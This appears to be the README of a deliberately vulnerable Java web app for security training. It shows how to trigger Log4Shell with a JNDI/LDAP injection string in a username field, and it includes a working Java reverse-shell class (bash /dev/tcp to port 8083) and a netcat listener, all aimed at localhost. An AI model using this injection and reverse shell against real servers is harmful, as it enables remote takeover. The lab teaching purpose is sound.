

# vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application (v1.5.0 onward which includes the vulnerable version of log4j) using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following expression into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```




The log4j variable substitution code path will then fetch the following `javaNamingReference` object from the in-memory LDAP server (via JNDI):

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceReverseShellExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceReverseShellExploit
cn: Java Class
sn: Class
uid: java-ref
```

The `URLClassLoader` will lookup the `uk.ac.jisc.cybersec.rce.RceReverseShellExploit` class firstly from the local classpath — where it does not exist — then from the URL codebase provided by the LDAP entry (e.g. remotely via HTTP at `http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar`). This downloads the referenced `jar` file, and instantiates `uk.ac.jisc.cybersec.rce.RceReverseShellExploit`, triggering the static method shown below. 

The malicious code attempts to establish a reverse shell to anything listening on port *8083* on *localhost*:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To complete the attack and establish a remote network connection to the compromised web-server, you, as the *bad-actor*, must start a listener on port `8083` on `localhost` (in a real-world attack, this would be a remote server). For example, using `netcat`:


```bash
nc -l 8083
```

Once the connection is established, you can run bash commands inside the listener you started above e.g. type `ls` into the terminal window running `netcat`.


#### Note on Java Version

To ensure the vulnerability works in versions of Java greater than v8, the following property is set automatically by the web-application — JDK versions after JDK 8 disable class creation from URL codebases by default.


```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Note, a 'codebase' can be defined as a source, or a place, from which to load classes into a virtual machine. 
